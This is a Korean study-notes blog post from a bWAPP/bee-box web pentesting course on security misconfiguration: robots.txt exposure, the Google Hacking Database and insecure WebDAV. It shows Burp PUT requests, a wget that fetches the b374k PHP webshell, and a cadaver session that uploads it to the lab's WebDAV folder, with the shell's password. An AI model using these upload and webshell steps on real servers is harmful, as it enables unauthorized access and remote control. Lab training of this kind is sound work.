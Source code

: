 ```yaml
---
layout: post
title: "비박스를 활용한 웹 모의해킹 완벽 실습 - 보안 설정 오류(구글 해킹, Robots.txt, WebDav)"
excerpt_separator:  <!--more-->
categories:
 - WebHack
tags:
  - 웹 해킹
  - 인프런
  - Part5 A5
  - 보안 설정 오류
---
```


<!--more-->

# 출처

## 인프런, 비박스를 활용한 웹 모의해킹 완벽 실습 17강 <https://www.inflearn.com/course/%EB%B9%84%EB%B0%95%EC%8A%A4-%EB%AA%A8%EC%9D%98%ED%95%B4%ED%82%B9-%EC%8B%A4%EC%8A%B5/>

---

## 보안 설정 오류

### Exploit-DB GHDB

* 구글 검색으로 취약점을 찾을 수 있는 데이터베이스
* [Google Hacking Database](https://www.exploit-db.com/google-hacking-database/)
* Robots.txt: 구글 검색을 위한 파일이며 구글의 검색 허용 범위를 지정
* 관리자 페이지처럼 중요한 정보를 노출시킬 수도 있음

## Robots 파일 내 중요한 정보 노출

* 웹사이트 운영 시 원하지 않는 중요한 컨텐츠가 구글 등 각종 검색엔진에 의해 노출
* 검색엔진 로봇이 사이트에 접근하는 것을 제한하거나 허용하기 위해 웹사이트의 최상위 디렉토리에 특정한 설정 파일을 만듦
* 어떠한 컨텐츠에 대해서도 각종 봇의 접근이나 색인(index) 거부

|형식|설명|
|:----:|:----:|
|User-agent|검색 로봇을 설정하는 항목으로 *는 모든 로봇을 의미|
|Allow:/폴더명/|해당 폴더에 대한 접근을 허용|
|Disallow:/폴더명/|해당 폴더에 대한 접근을 거부|

---

## Robots File

![image](https://user-images.githubusercontent.com/28076542/52756444-b4c17f00-3044-11e9-954b-97bf7a25f648.png)

* URL: `192.168.190.143/bWAPP/robots.txt`에 들어가면 robots.txt 내용 확인 가능

### 192.168.190.143/bWAPP/robots.txt

```bash
User-agent: GoodBot
Disallow:

User-agent: BadBot
Disallow: /

User-agent: *
Disallow: /admin/
Disallow: /documents/
Disallow: /images/
Disallow: /passwords/
```

* URL 뒤에 각 항목을 넣어 들어가보면 민감한 자료가 존재

---

## Insecure WebDAV Configuration

![image](https://user-images.githubusercontent.com/28076542/52758880-4fbe5700-304d-11e9-9b38-6ed3e8b6b9e9.png)

* 이런게 있는데 어차피 요즘은 잘 안 쓴다고 함
* `put` 메소드가 제일 위험 --> 업로드 취약점

### URL로 접속한 WebDAV 창 확인

![image](https://user-images.githubusercontent.com/28076542/52759363-ed665600-304e-11e9-8885-15c4eff3af11.png)

### Bee-Box에서 /etc/apache2/httpd.conf

```bash
ExtendedStatus On
<Location /server-status>
 SetHandler server-status
 Order deny,allow
 Allow from all
</Location>

# Allows WebDAV, not secure!!!
Alias /webdav /var/www/bWAPP/documents
<Location /webdav>
 DAV On
</Location>
```

* 주석에서도 안전하지 않다고 써 있음

### WebDAV 동작 확인 방법

* 해당 사이트에 접속 후 BurpSuite 실행
* OPTIONS를 넣고 기타 항목은 지우기
* HTTP history에서 Response 확인

### BurpSuite Raw에 넣은 메시지

```bash
OPTIONS /webdav/ HTTP/1.1
Host: 192.168.190.143
```

### BurpSuite로 WebDAV 동작확인

![image](https://user-images.githubusercontent.com/28076542/52759410-1686e680-304f-11e9-84d0-86b5a4585104.png)

![image](https://user-images.githubusercontent.com/28076542/52759693-27842780-3050-11e9-8fce-56948af4d80b.png)

* **Allow** 항목에 옵션들이 나타남

### BurpSuite에 PUT 메시지 삽입

```bash
PUT /webdav/test.txt HTTP/1.1

Host: 192.168.190.143

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Cookie: security_level=0; PHPSESSID=a44428958e332ff8c9355498af8ef26c

Connection: close

Upgrade-Insecure-Requests: 1



test1234
```

### WebDAV PUT 메시지 결과

![image](https://user-images.githubusercontent.com/28076542/52759807-9d888e80-3050-11e9-8d67-8f7feb77e7dc.png)

![image](https://user-images.githubusercontent.com/28076542/52760002-4800b180-3051-11e9-914d-4a9a0a0654cb.png)

---

## b374k

* PHP 환경에서 사용할 수 있는 웹쉘
* 웹쉘: 웹에서 사용할 수 있는 쉘 ㅎㅎ
* [b374k](https://github.com/tennc/webshell/tree/master/php/b374k)
* b374k-3.2.2.php를 사용할 것

### 칼리리눅스 터미널에 b374k 설치

```bash
root@ming:~# cd ~
root@ming:~# wget https://raw.githubusercontent.com/tennc/webshell/master/php/b374k/b374k-3.2.2.php
--2019-02-14 12:17:45--  https://raw.githubusercontent.com/tennc/webshell/master/php/b374k/b374k-3.2.2.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.72.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.72.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 84267 (82K) [text/plain]
Saving to: ‘b374k-3.2.2.php’

b374k-3.2.2.php       100%[=========================>]  82.29K  --.-KB/s    in 0.08s   

2019-02-14 12:17:45 (1.04 MB/s) - ‘b374k-3.2.2.php’ saved [222039]
```

### cadaver 실행

* cadaver: 칼리리눅스에서 기본으로 지원하는 툴로 여러가지 http 메소드를 사용할 수 있게 제공

```bash
root@ming:~# cadaver http://192.168.190.143/webdav/
dav:/webdav/> help
Available commands: 
 ls         cd         pwd        put        get        mget       mput       
 edit       less       mkcol      cat        delete     rmcol      copy       
 move       lock       unlock     discover   steal      showlocks  version    
 checkin    checkout   uncheckout history    label      propnames  chexec     
 propget    propdel    propset    search     set        open       close      
 echo       quit       unset      lcd        lls        lpwd       logout     
 help       describe   about      
Aliases: rm=delete, mkdir=mkcol, mv=move, cp=copy, more=less, quit=exit=bye
dav:/webdav/> put b374k-3.2.2.php 
Uploading b374k-3.2.2.php to `/webdav/b374k-3.2.2.php':
Progress: [=============================>] 100.0% of 222039 bytes succeeded.
dav:/webdav/> 
```

### WebDAV에 업로드 된 b374k

![image](https://user-images.githubusercontent.com/28076542/52760450-ee00eb80-3052-11e9-9478-fc07de796542.png)

* b374k-3.2.2.php를 클릭하고 비밀번호는 **b374k**

### b374k 실행 화면

![image](https://user-images.githubusercontent.com/28076542/52760511-1d175d00-3053-11e9-9078-f59fb8908b30.png)